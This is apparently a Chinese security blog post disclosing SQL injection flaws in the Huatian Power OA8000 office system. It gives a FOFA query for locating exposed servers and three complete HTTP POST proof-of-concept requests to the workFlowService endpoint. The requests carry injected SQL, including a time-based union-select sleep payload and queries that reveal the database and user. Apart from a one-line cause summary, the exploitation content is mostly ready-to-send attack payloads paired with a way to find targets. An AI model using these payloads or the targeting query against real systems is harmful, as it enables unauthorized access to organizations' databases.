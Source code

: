 直接查询获取结果  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRMHW5Lcia7D8SyPHcEo234634cSKukp1OECXhHn8dSiasTzVySSFx4bhc2xoljq8kxtk5B1WWBicN3A/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞  
总结  
  
03  
  
这些SQL注入漏洞的形成原因，是代码中拼接SQL语句或未授权调用了数据库查询操作，最后造成能执行任意的恶意SQL语句。  
  
  
资产测绘  
  
01  
  
FOFA语法  
```
app="华天动力-OA8000"

```  
  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRMHW5Lcia7D8SyPHcEo2346ibKYDFD9bALZ1tJlN5jxS7EQKP8SVDsvapFW1zrhdCd7OfQIk4s3GZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞利用  
  
01  
  
三个POC如下  
```
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host:
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3Connection: keep-aliveCache-Control: max-age=0<buffalo-call>    <method>getAwokeListData</method>    <string>{"k":"SELECT database()","v":""}</string></buffalo-call>
```  
```
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3Connection: keep-aliveCache-Control: max-age=0<buffalo-call>    <method>getAfterUserID</method>    <string>1</string>    <string>1') union select sleep(3)#</string></buffalo-call>
```  
```
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3Connection: keep-aliveCache-Control: max-age=0<buffalo-call> <method>getDataListForTree</method> <string>select user()</string> </buffalo-call>
```  
  